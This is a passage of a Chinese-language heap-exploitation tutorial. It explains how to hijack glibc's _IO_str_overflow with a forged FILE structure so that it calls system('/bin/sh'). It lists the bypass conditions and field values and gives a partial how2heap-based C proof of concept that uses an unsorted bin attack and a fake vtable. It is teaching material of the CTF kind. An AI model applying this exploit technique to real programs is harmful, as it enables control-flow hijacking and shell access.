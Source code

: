 ```c
```

利用以下代码来劫持程序流程

```c
	  new_buf
	    = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
```

几个条件 bypass：

1. `1. fp->_flags & _IO_NO_WRITES为假`
2. `2. (pos = fp->_IO_write_ptr - fp->_IO_write_base) >= ((fp->_IO_buf_end - fp->_IO_buf_base) + flush_only(1))`
3. `3. fp->_flags & _IO_USER_BUF(0x01)为假`
4. `4. 2*(fp->_IO_buf_end - fp->_IO_buf_base) + 100 不能为负数`
5. `5. new_size = 2 * (fp->_IO_buf_end - fp->_IO_buf_base) + 100; 应当指向/bin/sh字符串对应的地址`
6. `6. fp+0xe0指向system地址`

构造：

```
_flags = 0
_IO_write_base = 0
_IO_write_ptr = (binsh_in_libc_addr -100) / 2 +1
_IO_buf_end = (binsh_in_libc_addr -100) / 2 

_freeres_list = 0x2
_freeres_buf = 0x3
_mode = -1

vtable = _IO_str_jumps - 0x18
```

#### 示例

修改了 how2heap 的 houseoforange 代码，可以自己动手调试一下。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner ( char *ptr);
int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    // unsorted bin attack
    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;
    top[3] = io_list_all - 0x10;
    // _IO_str_overflow conditions
    char binsh_in_libc[] = "/bin/sh\x00"; // we can found "/bin/sh" in libc, here i create it in stack
    // top[0] = ~1;
    // top[0] &= ~8;
    top[0] = 0;
    top[4] = 0; // write_base
    top[5] = ((size_t)&binsh_in_libc-100)/2 + 1; // write_ptr
    top[7] = 0; // buf_base
    top[8] = top[5] - 1; // buf_end
    // house_of_orange conditions
    top[1] = 0x61;

    top[20] = (size_t) &top[18];
```